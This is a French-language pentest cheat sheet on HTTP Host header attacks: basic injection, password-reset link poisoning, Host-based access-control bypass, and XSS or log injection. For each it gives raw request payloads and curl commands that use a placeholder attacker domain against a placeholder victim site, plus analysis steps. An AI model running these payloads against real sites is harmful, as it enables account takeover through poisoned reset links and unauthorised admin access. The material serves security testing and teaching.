 # HTTP Host headers

Voici une synthèse des principaux scénarios d’exploitation des **HTTP Host headers**, présentée sous forme de liste numérotée et indentée, avec des exemples complets et condensés sur une seule ligne pour les payloads, commandes d’attaque et d’analyse, ainsi qu’une méthodologie détaillée et une URL PortSwigger complète.

---

**1. Host Header Injection basique**  
  1. Payload d’attaque neutre : GET / HTTP/1.1 Host: evil-attacker.com Connection: close  
  2. Commande d’attaque : curl -H "Host: evil-attacker.com" https://site-victime.net/  
  3. Commande d’analyse : curl -H "Host: evil-attacker.com" -v https://site-victime.net/  
     Observer si la réponse contient des liens, redirections ou contenus utilisant evil-attacker.com.  
  4. Élément d’analyse détaillé : Vérifier si l’application utilise la valeur du header Host sans validation, permettant la génération de liens, redirections ou d’URL d’API malveillantes.  
  5. Méthodologie détaillée : Envoyer des requêtes HTTP en modifiant le header Host, observer la réponse pour détecter l’utilisation de la valeur injectée dans le contenu HTML, liens, redirections ou emails générés.  
  6. Source : https://portswigger.net/web-security/host-header

**2. Host Header Poisoning dans la réinitialisation de mot de passe**  
  1. Payload d’attaque neutre : POST /reset-password HTTP/1.1 Host: evil-attacker.com Content-Type: application/x-www-form-urlencoded Content-Length: 30 email=admin@site-victime.net  
  2. Commande d’attaque : curl -X POST -H "Host: evil-attacker.com" -d "email=admin@site-victime.net" https://site-victime.net/reset-password  
  3. Commande d’analyse : Consulter l’email de réinitialisation ou utiliser curl -s -H "Host: evil-attacker.com" https://site-victime.net/reset-password | grep evil-attacker.com  
     Vérifier si le lien de réinitialisation contient evil-attacker.com.  
  4. Élément d’analyse détaillé : Vérifier si le lien de réinitialisation ou d’autres liens sensibles générés par l’application utilisent la valeur du Host fourni par l’utilisateur.  
  5. Méthodologie détaillée : Faire une demande de réinitialisation en injectant une valeur Host contrôlée, puis vérifier si le lien envoyé dans l’email ou affiché à l’utilisateur contient le domaine malveillant.  
  6. Source : https://portswigger.net/web-security/host-header/exploiting

**3. Bypass de restrictions d’accès ou de filtrage par Host**  
  1. Payload d’attaque neutre : GET /admin HTTP/1.1 Host: admin.site-victime.net Connection: close  
  2. Commande d’attaque : curl -H "Host: admin.site-victime.net" https://site-victime.net/admin  
  3. Commande d’analyse : curl -H "Host: admin.site-victime.net" -v https://site-victime.net/admin  
     Observer si des pages internes ou réservées deviennent accessibles ou si le contenu diffère selon le Host.  
  4. Élément d’analyse détaillé : Vérifier si l’application ou le reverse proxy applique des règles de filtrage ou d’accès basées sur la valeur du Host.  
  5. Méthodologie détaillée : Tester différentes valeurs de Host pour contourner les contrôles d’accès ou de routage, observer si l’application délivre des contenus différents ou permet l’accès à des fonctionnalités normalement restreintes.  
  6. Source : https://portswigger.net/web-security/host-header/exploiting

**4. Host Header Injection pour XSS ou injection dans les logs**  
  1. Payload d’attaque neutre : GET / HTTP/1.1 Host: <script>alert(1)</script> Connection: close  
  2. Commande d’attaque : curl -H "Host: <script>alert(1)</script>" https://site-victime.net/  
  3. Commande d’analyse : curl -H "Host: <script>alert(1)</script>" -v https://site-victime.net/  
     Rechercher dans la réponse ou dans les logs si la valeur est réinjectée sans filtre, par exemple grep "<script>" sur la page ou les logs.  
  4. Élément d’analyse détaillé : Vérifier si la valeur du Host est réutilisée dans la page, les logs ou des emails sans échappement, permettant XSS, log injection ou phishing.  
  5. Méthodologie détaillée : Injecter des caractères spéciaux ou du code dans le Host, puis rechercher leur reflet dans la réponse HTTP, les logs du serveur ou tout autre canal.  
  6. Source : https://portswigger.net/web-security/host-header/exploiting

---
